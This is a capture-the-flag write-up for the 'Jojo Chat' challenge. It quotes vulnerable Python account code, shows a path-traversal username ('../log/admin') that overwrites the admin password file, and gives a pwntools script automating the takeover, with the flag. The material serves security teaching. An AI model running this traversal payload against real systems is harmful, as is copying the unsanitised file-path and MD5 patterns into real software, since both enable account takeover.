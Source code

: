 ## Jojo Chat 1/2

The kidnappers of Jojo have been developping their own chat platform.
We need you to get an admin access on it, in order to stop their evil activities.

**Author: algorab**

### Challenge description

The aim of this challenge is to find out how to pass admin on the application.

We have access to various functions, such as creating an account, logging in, viewing messages, sending a message, as well as to the program's source code. We need to find a vulnerability that allows us to become admin in order to access the `admin()` function, which we can see in the source code.

### Solution

It's all about creating the account. The `create_account()` function is as follows:

```python
def create_account():
    name = input("Enter your username: ")
    names = os.listdir("./log")
    while name in names:
        name = input("This username is already used! Enter another one: ")
    passwd = input("Enter a password: ")
    log = open(f"./log/{name}", 'w')
    log.write(f"Password : {hashlib.md5(passwd.encode()).hexdigest()}\n")
    print("\nAccount was successfully created!")
    log.close()
```

In addition, the `connect()` function is as follows:

```python
def connect():
    name = input("Username: ")
    names = os.listdir("./log")
    while not(name in names):
        input("This user does not exists! Username: ")
    log = open(f"./log/{name}", 'r+')
    hash_pass = log.readline().split(" ")[-1][:-1]
    return (hashlib.md5(input("Password: ").encode()).hexdigest() == hash_pass, name)
```

In other words, everything goes through the `log` file. By rewriting this file, you take control of the account!
Now we just need to find a way to do it. Note that no check is made on the account name when it is created, and that the log file is created directly by concatenating the address of the log file and the user name. It is therefore possible to create a slightly twisted path to rewrite the admin log file without actually creating an admin account.

```
Hey, welcom to j0j0 Chat! Feel free to chat with everyone here :)

Choose an option:
1) Create an account
2) Login
3) Leave
1
Enter your username: ../log/admin
Enter a password: iamadmin

Account was successfully created!

Choose an option:
1) Create an account
2) Login
3) Leave
2
Username: admin
Password: iamadmin

Choose an option:
1) See messages
2) Send a message
3) Logout
```

You can then log in as admin, and solve the last little game before accessing the flag!

```python
from pwn import *

host = sys.argv[1]
port = int(sys.argv[2])

conn = remote(host, port)

conn.recvuntil(b"3) Leave\n")
conn.sendline(b"1")
conn.recvuntil(b"username: ")
conn.sendline(b"../log/admin")
conn.recvuntil(b"password: ")
conn.sendline(b"iamadmin")
conn.recvuntil(b"3) Leave\n")
conn.sendline(b"2")
conn.recvuntil(b"Username: ")
conn.sendline(b"admin")
conn.recvuntil(b"Password: ")
conn.sendline(b"iamadmin")
conn.recvuntil("3) Logout\n".encode())
conn.sendline(b"admin")
print(conn.recvline().decode())
conn.close()
```

### Flag

`N0PS{pY7h0n_p4Th_7r4v3r54l}`

